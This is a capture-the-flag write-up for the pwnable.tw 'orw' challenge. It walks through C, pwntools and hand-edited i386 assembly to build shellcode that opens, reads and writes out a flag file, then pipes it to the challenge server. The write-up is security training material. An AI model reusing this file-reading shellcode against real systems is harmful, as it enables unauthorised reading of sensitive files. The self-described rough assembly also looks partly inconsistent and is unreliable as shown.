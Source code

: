 # Open-Read-Write Problem 

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001
```

## 1. Create a C program that demonstrates the functionality

```clang
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void test() {
        int fd = syscall(SYS_open, "/home/orw/flag", O_RDONLY, 0);
        char buf[100];
        syscall(SYS_read, fd, &buf, 100);
        syscall(SYS_write, 1, buf, 100);
}
int main() {
        test();
        return 0;
}
```

## 2. Rough out equivalent assembly using pwnlib

The syscalls `SYS_read` and `SYS_write` take in a buffer. We didn't know how to express this in pwnlib, so we just put 
in the value `60` in place of the buffer.

```bash
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.open('/home/orw/flag').rstrip())"
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.syscall('SYS_read', 1, 60, 100).rstrip())" 
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.syscall('SYS_write', 1, 60, 100).rstrip())"
```

## 3. Piece together rough assembly code

We had to tie together the `SYS_read` and `SYS_write` system calls by replacing the stubbed buffer value of `60`
with the stack pointer. We also replaced the syscall macros with their respective integer numbers just in case.

```asm
    /* open(file='/home/orw/flag', oflag=0, mode=0) */
    /* push '/home/orw/flag\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016660
    push 0x6c662f77
    push 0x726f2f65
    push 0x6d6f682f
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    /* call open() */
-   push SYS_open /* 5 */
+   push 0x5
    pop eax
    int 0x80
    /* call read(1, 0x3c, 0x64) */
-   push SYS_read /* 3 */
+   push 0x3
    pop eax
-   push 1
-   pop ebx
-   push 0x3c
-   pop ecx
+   mov ecx, esp
    push 0x64
    pop edx
    int 0x80
    /* call write(1, 0x3c, 0x64) */
-   push SYS_write /* 4 */
+   push 0x4
    pop eax
    push 1
    pop ebx
-   push 0x3c
+   pop ecx
    push 0x64
    pop edx
    int 0x80
```

We then placed all of these instructions into the `asm` pwntools function. 

## 4. Execute

```bash
python shellcode.py | nc chall.pwnable.tw 10001
``` 

Returns:

```bash
mike@mike-VirtualBox:~/dev/challenges/2$ python shellcode.py | nc chall.pwnable.tw 10001
Give my your shellcode:FLAG{redacted}
```  

